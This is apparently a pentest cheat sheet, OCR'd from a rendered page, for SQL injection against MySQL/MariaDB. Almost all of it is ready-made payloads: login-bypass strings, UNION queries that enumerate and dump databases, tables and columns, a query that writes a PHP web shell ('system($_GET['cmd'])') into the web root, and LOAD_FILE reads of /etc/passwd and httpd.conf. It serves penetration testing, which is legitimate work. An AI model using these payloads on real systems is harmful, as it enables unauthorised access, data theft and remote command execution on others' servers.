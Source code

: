 # Pentest Web
## SQL Injection - MySQL/MariaDB
-> Bypass Authentication
```
' or 1=1 -- -
admin' -- -
' or 1=1 order by 2 -- -
' or 1=1 order by 1 desc -- - 
' or 1=1 limit 1,1 -- -
```

-> get number columns
```
-1 order by 3;#
```

-> get version
```
-1 union select 1,2,version();#
```

-> get database name
```
-1 union select 1,2,database();#
```

-> get table name
```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#
```

-> get column name
``` 
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#
```

-> dump
```
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#
```

### Webshell via SQLI
-> view web server path  
```
LOAD_FILE('/etc/httpd/conf/httpd.conf')    
```

-> creating webshell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```
 
### Reading Files via SQLI - MySQL
e.g.  
```
SELECT LOAD_FILE('/etc/passwd')
```
